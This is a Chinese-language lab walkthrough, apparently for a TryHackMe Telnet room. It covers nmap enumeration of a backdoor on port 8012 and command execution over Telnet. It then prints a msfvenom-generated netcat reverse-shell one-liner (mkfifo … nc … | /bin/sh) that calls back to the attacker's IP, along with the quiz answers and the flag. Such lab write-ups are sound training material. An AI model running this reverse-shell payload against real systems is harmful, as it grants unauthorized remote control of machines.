

Telnet是一种应用程序协议（`application protocol`  ），它允许您使用telnet客户端连接到托管telnet服务器的远程计算机并在其上执行命令。
Telnet 以明文形式发送所有消息，并且没有特定的安全机制。因此，在许多应用程序和服务中，Telnet 在大多数实现中已被 SSH 取代。
## Telnet 使用

```bash file:telnet
telnet [ip] [port]
```

>[!TIP]
>**telnet 窗口执行命令，需要在命令执行前添加`.RUN`**

```ad-details
collapse: true
title:  什么是telnet？
**答案**： `application protocol`
```

```ad-details
collapse: true
title:  什么慢慢取代了 Telnet？
**答案**： `ssh`
```

```ad-details
collapse: true
title: 如何连接到端口 23 上 IP 为 10.10.10.3 的 Telnet 服务器？
**答案**： `telnet 10.10.10.3 23`
```

```ad-details
collapse: true
title:  缺少什么，意味着所有 Telnet 通信都是明文的？
_提示：现代互联网使用什么来安全通信？_
**答案**：`encryption`
```

## Telnet枚举（Enumerating）

我们已经看到了密钥枚举如何利用配置错误的网络服务。然而，可能微不足以利用的漏洞并不总是突然出现在我们面前。因此，尤其是在列举网络服务时，我们需要彻底使用我们的方法。

让我们以通常使用的方式开始，即端口扫描，以尽可能多地了解有关目标计算机的服务、应用程序、结构和操作系统的信息。使用[NMAP](5.Network_NMAP.md)和标签 `-A` 和 `-p-` 扫描计算机。

- `-A`：将操作系统检测、版本检测、脚本扫描和 Traceroute 合二为一（噪声大）。
- `-p-`：启用所有端口的扫描，而不仅仅是前 1000 个端口。

````ad-details
collapse: true
title: 有多少端口在此及其开启？
**答案**：`1`
让我们从使用 Nmap 扫描机器开始：
```bash
sudo nmap -p- 10.10.86.243


Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-22 12:43 UTC
Nmap scan report for ip-10-10-86-243.eu-west-1.compute.internal (10.10.86.243)
Host is up (0.00070s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE
8012/tcp open  unknown
MAC Address: 02:3C:80:9F:77:B3 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 3.55 seconds

```
````

```ad-details
collapse: true
title:  哪个端口是开启的？
**答案**：`8012`
```

```ad-details
collapse: true
title: 这个端口是未分配的，但任然给出了他正在使用的协议类型，是什么协议？
**答案**：`TCP`
```

```ad-details
collapse: true
title:  不用`-p-`参数，扫描结果中有几个端口开启？
**答案**：`0`

**在这里，我们看到通过将 telnet 分配给非标准端口，它不是 nmap 扫描的公共端口列表或前 1000 个端口的一部分。在列举时尝试每个角度很重要，因为您在此处收集的信息将为您的开发阶段提供信息。**
```

```ad-details
collapse: true
title: 根据返回信息，我们认为这个端口可以来干什么？
**答案**：`abackdoor`
```

````ad-details
collapse: true
title: 它会属于谁？
**答案**：`Skidy`

```bash{10}
sudo nmap  -sV -p8012  10.10.86.243
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-22 12:50 UTC
Nmap scan report for ip-10-10-86-243.eu-west-1.compute.internal (10.10.86.243)
Host is up (0.00019s latency).

PORT     STATE SERVICE VERSION
8012/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8012-TCP:V=7.93%I=7%D=7/22%Time=669E559B%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20command
SF:s\n")%r(GenericLines,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\
...
```
````

## Telnet 漏洞利用

Telnet 作为一种协议，由于我们之前讨论的原因，它本身是不安全的。它缺乏加密，因此所有通信都通过明文发送，并且在大多数情况下访问控制不佳。但是，Telnet 客户端和服务器系统存在 CVE，因此在利用时，您可以在以下位置检查这些 CVE：

- [https://www.cvedetails.com/](https://www.cvedetails.com/)
- [https://cve.mitre.org/](https://cve.mitre.org/)
CVE 是 Common Vulnerabilities and Exposures 的缩写，是公开披露的计算机安全漏洞列表。当有人提到 CVE 时，他们通常是指分配给安全漏洞的 CVE ID 号。
但是，您更有可能发现 telnet 的配置或运行方式存在错误配置，从而允许您利用它。

因此，从我们的枚举阶段，我们知道：
- 此机器上正在运行一个隐藏性很差的 telnet 服务
-  “backdoor”服务本身被标记为 “backdoor”
- 我们可能牵涉到“Skidy”的用户名
使用此信息，让我们尝试访问此 telnet 端口，并将其用作在机器上获得完整反向 shell 的立足点！

#### 连接到 telnet

**什么是反向shell？**



“shell” 可以简单地描述为一段代码或程序，可用于在设备上执行代码或命令。
反向 shell 是一种 shell，其中目标机器与攻击机器通信。攻击机器有一个侦听端口，它通过该端口接收连接，从而实现代码或命令的执行。

````ad-details
collapse: true
title: 登陆telnet，我们收到了什么欢迎信息?
**答案：**`SKIDY'S BACKDOOR`

```bash
telnet 10.10.86.243 8012

Trying 10.10.86.243...
Connected to 10.10.86.243.
Escape character is '^]'.
SKIDY'S BACKDOOR. Type .HELP to view commands
```
````

````ad-details
collapse: true
title:  尝试运行命令，会有返回信息吗？
**答案：**`N`
```bash
.RUN ls
```
````

### 验证是否可以执行命令

 嗯......这很奇怪。让我们检查一下我们键入的内容是否作为系统命令执行。

````ad-details
collapse: true
title: 在本地主机上启动tcpdump 侦听器，侦听 `ping`操作的`ICMP`流量：`sudo tcpdump local-ip proto \\icmp -i eth0`Telnet 会话中运行“ping [local IP] -c 1” 看看本地是否能够收到`ping`流量？
**答案：** `Y`
```bash
sudo tcpdump ip proto \\icmp -i eth0  # 本地IP
 .RUN ping -c 1 10.10.33.28   # telnet会话窗口执行命令，记得加`.RUN`
```
````

太好了！这意味着我们能够执行系统命令，并且能够访问我们的本地计算机。现在让我们来找点乐子吧！

### 生成 reverse_shell

**我们将使用 msfvenom 生成反向 shell 有效负载。这将为我们生成并编码一个 netcat 反向 shell。这是我们的语法：**

```bash file:msfvenom
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```

-  `-p` = 有效载荷类型
- `lhost` = 我们的本地主机 IP 地址
- `lport` = 要侦听的端口
- `R` = 以原始格式导出有效负载

````ad-details
collapse: true
title:用`msfvenom` 生成反向`shell` 的payload，`payload`以哪个单词开头 ？
**答案：**`mkfifo`

```bash
msfvenom  -p cmd/unix/reverse_netcat lhost=10.10.33.28  lport=4444 R

[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 101 bytes
mkfifo /tmp/mbilfvt; nc 10.10.33.28 4444 0</tmp/mbilfvt | /bin/sh >/tmp/mbilfvt 2>&1; rm /tmp/mbilfvt
```
````

```ad-details 
collapse: true
title: 成功！flag.txt 的内容是什么？
**答案：** `THM{y0u_g0t_th3_t3ln3t_fl4g}`
```

:::tabs
@tab 本地端口监听
```bash file:nc
nc -lvp 4444
```
@tab 远程执行反弹
```bash file: .RUN
.RUN mkfifo /tmp/mbilfvt; nc 10.10.33.28 4444 0</tmp/mbilfvt | /bin/sh >/tmp/mbilfvt 2>&1; rm /tmp/mbilfvt
```
@tab flag
```bash file:flag
THM{y0u_g0t_th3_t3ln3t_fl4g}
```
:::

